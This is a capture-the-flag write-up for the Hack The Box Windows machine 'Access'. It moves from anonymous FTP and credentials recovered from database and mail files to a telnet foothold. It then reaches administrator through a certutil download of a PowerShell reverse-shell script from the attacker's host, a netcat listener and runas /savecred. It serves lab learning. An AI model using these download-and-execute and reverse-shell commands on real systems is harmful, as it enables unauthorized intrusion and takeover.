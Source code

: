 ```yaml
---
title: Access
tags: windows
description: Write-up for Hack the Box - Access
---
```


![2021-08-15_20-19.png](assets/2021-08-15_20-19.png)

## Overview

Access is a Windows Server 2008 R2 box running an telnet, IIS, and ftp. Sensitive data was exposed on the ftp server which provided valid logon credentials for telnet and provided the initial foothold as user.  Enumeration of the system lead to cached credentials which were used to switch to the administrator account.

## Enumeration

**Software**  

* Windows Windows Server 2008 R2 Standard  
* Microsoft Windows XP telnetd  
* IIS 7.5  

**Open Ports**  

```
nmap -vv --reason -Pn -sT -A --osscan-guess -p- -oN /mnt/data/boxes/access/results/10.10.10.98/scans/_full_tcp_nmap.txt -oX /mnt/data/boxes/access/results/10.10.10.98/scans/xml/_full_tcp_nmap.xml 10.10.10.98  
```

* 21/tcp - ftp  

* 23/tcp - telnet  

* 80/tcp - http  

## Steps (User)

I started by browsing to the website on port 80. There wasn't much to it, just a single picture of what looked like server racks with the caption “LON-MC6”. I didn't find anything interesting so I decided to log onto the ftp server which I was able to log into anonymously. 

There were two folders, Engineer and Backups. I pulled down backup.mdb from Backups and Access Control.zip From Engineer. The zip file was password protected and running fcrackzip with the rockyou password was unsuccessful. On to the mdb file...

Since I use a Linux box, I wasn't able to open the mdb file natively (it's an Access database).  I tried a few different approaches to get it to open with Libre Office but ultimately I settled on mdbtools. WIth mdb-sql I was able to query the database via the command line. After listing the tables I came across auth_user which looked interesting.

<img title="" src="assets/682952c362321549a29d4f74c09a6353da10326c.png" alt="loading-ag-1450" width="171">

This table contained a few different passwords. The output was terrible so I had to scroll around a bit and found 3 username/password entries: admin/admin, engineer/access4u@security, and backup_admin/admin.

![image](assets/536240ffebb5847567ccab9172344f1f05b481db.png)

I had to do some searching to figure out the best way to read pst files on a linux box and decided to go with readpst. Using readpst I convereted the .pst file to an .mbox file. I was then able to open it in a text editor which showed an email containing the security account password.

security/4Cc3ssC0ntr0ller

With that username and password I was able to successfully log in via telnet and get the user flag.  

## Steps (root/system)

After poking around the system a bit I did not find any obvious privilege escalation paths, so I tranferred winpeas to the box and ran it. Not much of anything interesting except for some saved credentials for the administrator account. Running cmdkey /list showed that the credentials for the administrator account were saved.

![image](assets/a9a5983e7bbc09b935c12faad66dd73ac7874ce1.png)

I made a copy of Invoke-PowerShellTcp on my local machine and added Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.20 -Port 4200 to the end so it would automatically call cmdlet.  

I downloaded Invoke-PowerShellTcp.ps1 via certutil  

```
certutil -urlcache -split -f http://10.10.14.20:8080/Invoke-PowerShellTcp.ps1
```

Started reverse shell with netcat on my machine 

```
nc -lvnp 4200
```

And used the runas command to use the saved credential to launch Invoke-PowerShellTcp which called back to my machine.

```
runas /savecred /user:ACCESS\Administrator "powershell -exec bypass c:\users\public\invoke-powershellltcp.ps1"
```

Shell as administrator

![](assets/2021-07-10-09-51-49-image.png)
